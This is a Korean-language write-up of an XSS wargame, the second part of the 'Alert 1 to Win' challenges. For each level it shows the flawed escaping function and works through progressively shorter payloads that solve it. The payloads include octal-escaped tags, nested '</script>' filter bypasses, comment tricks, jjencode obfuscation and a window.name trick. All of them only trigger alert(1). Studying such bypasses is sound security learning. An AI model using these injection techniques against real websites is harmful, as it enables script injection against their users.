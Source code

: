 ```yaml
---
layout: post
title: "XSS Challenges writeup - Alert 1 to win (Part 2)"
description: XSS Challenges writeup - Alert 1 to win (Part 2)
headline: XSS Challenges writeup - Alert 1 to win (Part 2)
modified: 2017-04-16
category: web xss
comments: true
featured: true
---
```



Alert 1 to Win Part 2 시작합니다.

# Temlplate
```javascript
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g, 
        function(_, n) { 
           return htmlEscape(args[n]);
         });
  }
  
  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```
입력의 `<, >, &` 과 모든 문자열이 htmlEscape로 치환당합니다. 나머지로 쓸 수 있는건 `/`, `\`이 남았습니다.

그리고 하나더 알아야하는것이 innerHTML의 문자열 처리입니다. 
innerHTML은 Hex값과 Octal 값을 원본 문자열로 소화합니다.

```javascript
document.body.innerHTML = "\x3ca\x3ehi</a>";
```
예시 코드를 실행해보면 정상적으로 a 태그가 본문에 삽입되는것을 확인할 수 있습니다.


그리하여 작성된 첫번째 payload : `\x3cimg src=0 onerror=alert(1)\x3e`(34자리)

역시나 순위권에서 밀렸네요 :( 점점 short exploit이 어렵습니다.
우선은 Hex값인 `\x3c`를 Octal 값인 `\74`로 `\x3e`를 `\76`로 치환해봤습니다.

payload : `\74img src=0 onerror=alert(1)\76`(32자리)
32자리로 줄였는데도 많이 기네요

payload : `\74img src onerror=alert(1)\76`(30자리)
30자리로 어느정도 순위권에 들었는데 만족 스럽지 못합니다 :(

innerHTML으로 삽입되는건 onload가 작동하지 않아서 좀 더 줄이기 어렵네요. 자바스크립트를 좀 더 공부해야 봅니다. 30자리로 만족하고 넘어갑니다.

# JSON ][
```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```
backend 진형의 워게임 문제라면 항상 등장하는 잘못된 치환 방법의 문제입니다.

`</script>` 를 치환하면 `</script>`를 만들지 못하겠지!? 라는 착각을 일으키지만 `</scr</scriptipt>`를 넣으면 `</script>`로 치환되버리는것을 이용해서 풀면됩니다.

payload : `</sc</scriptript><script>alert(1)//`(35자리)

# Callback ][
```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
Part 1에서 보았던 문제랑 유사한 유형입니다. 대신 `//` 주석을 사용할 수 없는 상황이 되었습니다.

하지만, 자바스크립트 진영에서는 `<!-- -->` 주석도 사용 가능합니다.
자세한 내용은 http://www.javascripter.net/faq/comments.htm 에서 확인해보세요!

payload : `'#';alert(1)<!--`(16자리)

# Skandia ][
part 1의 Skandia 문제와 동일합니다. 하지만 `<>`를 사용할 수 없습니다. 따라서 `<script>`를 집어넣는게 어려워졌습니다.
하지만 더블쿼터(")나 슬래시(/)에 대한 치환이 없습니다.

```
<script>console.log("");ALERT(1)//")</script>
```
따라서 upcase 되어도 문자열은 삽입이 가능합니다.
자바스크립트 난독화 기법중에 알파벳을 이용하지 않는 난독화 기법이 있습니다. 
자세한 설명은 [자바스크립트 난독화 기법 및 분석 방법론](http://codeengn.com/archive/Web Application/자바스크립트 난독화 기법 및 분석 방법론 [박민건].pdf)를 확인해보세요.

payload(538글자) : 
```
");$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+")"+"\"")())();//
```
저는 공개된 [jjencode](http://utf-8.jp/public/jjencode.html)를 사용해서 해결했습니다.
공개된 도구를 사용하지 않으면 충분히 짧은 payload를 짤수 있을것 같지만 538글자로 만족하고 넘어갑니다. 참고로 84글자가 1등입니다.

# iframe
```javascript
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // https://4i.am/?...raw=... just outputs whatever you pass in.
  //
  // Alerting from 4i.am won't count.

  s = '<script>' + s + '<\/script>';
  tag.src = 'https://4i.am/?:XSS=0&CT=text/html&raw=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.setAttribute('onload', 'youWon && alert(1)');
  return tag.outerHTML;
}
```
우선 아무 입력값을 넣고 생성되는 iframe을 살펴보자

```HTML
<iframe src="https://4i.am/?:XSS=0&CT=text/html&raw=<script>aa</script>" onload="youWon && alert(1)"></iframe>
```

iframe이 삽입되는 문서에 youWon 이라는 변수가 생겨야 alert(1)가 실행된다.

```HTML
<html>
<body>
<iframe name="a">
</iframe>
<body>
<script>
console.log(a)
</script>
```
우선 위의 코드를 실행해보자. 어떤일이 벌어지는가? iframe에 직접 접근이 가능하다. HTML Tag중 name을 지정하면 전역으로 설정되는 tag들이 있다. 자세한건 표준을 살펴보시라! ㅌㅌ

```
1.html:
<iframe name="tim" href="2.html"></iframe>

2.html:
<script type="text/javascript">
    alert(window.name); // tim
</script>
```

그리고 iframe 내부에서는 iframe의 name에 접근이 가능하다. 따라서 iframe 내부에서 iframe의 name을 지정하면 name이 전역변수가 되기에 youWon이라는 변수를 만들 수 있게된다.

payload : `window.name="youWon"`(20자리)

payload : `name="youWon"` (13자리)

넘나 문제가 많은것... Part 3로 넘어갑니다.